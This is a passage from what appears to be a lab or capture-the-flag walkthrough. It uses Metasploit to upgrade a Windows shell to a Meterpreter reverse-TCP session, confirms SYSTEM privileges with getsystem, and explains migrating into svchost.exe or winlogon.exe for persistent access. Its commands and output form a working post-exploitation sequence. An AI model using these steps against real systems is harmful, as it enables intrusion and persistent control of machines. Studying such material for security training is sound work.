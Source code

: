 ```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                    Connection
  --  ----  ----               -----------                                                                    ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Micros.  10.10.209.104:4444 -> 10.10.205.212:49208 (10.10.205.212)
                               ..
msf6 post(multi/manage/shell_to_meterpreter) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.209.104:4433
msf6 post(multi/manage/shell_to_meterpreter) >
[*] Sending stage (200774 bytes) to 10.10.205.212
[*] Meterpreter session 2 opened (10.10.209.104:4433 -> 10.10.205.212:49228) at 2024-09-13 14:35:53 +0100
[*] Stopping exploit/multi/handler
```

From the output we can see that another session was opened, that is our newly created meterpreter session, let's interact with it

```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

The shell upgrading procedure also managed to upgrade our privileges.  
We can check this running the `getsystem` command which is a meterpreter command that attempts to elevate our privileges.

```bash
meterpreter > getsystem
[-] Already running as SYSTEM
```

As you can see from the output we are already running as SYSTEM, so we already have the highest privileges.  
Next, we migrate to a process owned by SYSTEM because even if we are SYSTEM, this does not mean that our process is: we could be restrained by limitations that depend on the specific exploit used to gain access.  
In addition, our current process might be short-lived.  
Migrating to a long-running SYSTEM process such as svchost.exe or winlogon.exe gives us a more stable and persistent access.  
Let's check the running processes:
